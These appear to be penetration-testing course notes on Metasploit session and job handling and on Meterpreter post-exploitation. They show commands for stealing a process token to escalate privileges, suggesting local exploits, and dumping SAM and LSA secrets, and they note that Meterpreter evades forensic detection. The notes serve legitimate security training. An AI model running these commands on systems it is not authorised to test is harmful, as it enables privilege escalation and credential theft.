 #### Background
Sessions can be put in the background with `[CTRL] + [Z]` or the `background` command
#### Interact with Session
```bash
msf6 exploit(multi/handler) > sessions
msf6 exploit(multi/handler) > sessions -i 1
```
#### Jobs
If we are running an active exploit under a specific port and need this port for a different module, we cannot simply terminate the session using `[CTRL] + [C]`. If we did that, we would see that the port would still be in use, affecting our use of the new module. So instead, we would need to use the `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.
```bash
msf6 exploit(multi/handler) > jobs -h
```
#### Running an Exploit as a Background Job
```bash
msf6 exploit(multi/handler) > exploit -j
```
#### Listing Jobs
```bash
msf6 exploit(multi/handler) > jobs -l
```

# Meterpreter
The main idea we need to get about Meterpreter is that it is just as good as getting a direct shell on the target OS but with more functionality. 

The extensible Payload uses `DLL injection` to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes. Furthermore, Meterpreter resides entirely in the memory of the remote host and leaves no traces on the hard drive, making it difficult to detect with conventional forensic techniques.
#### Meterpreter Migration
```shell
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.

meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
<SNIP>
 1836  592   wmiprvse.exe      x86   0   NT AUTHORITY\NETWORK SERVICE   C:\WINDOWS\system32\wbem\wmiprvse.exe

meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```
#### Local Exploit Suggester
```
meterpreter > bg
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
```
#### Dumping Hashes
```
meterpreter > hashdump
meterpreter > lsa_dump_sam
meterpreter > lsa_dump_secrets
```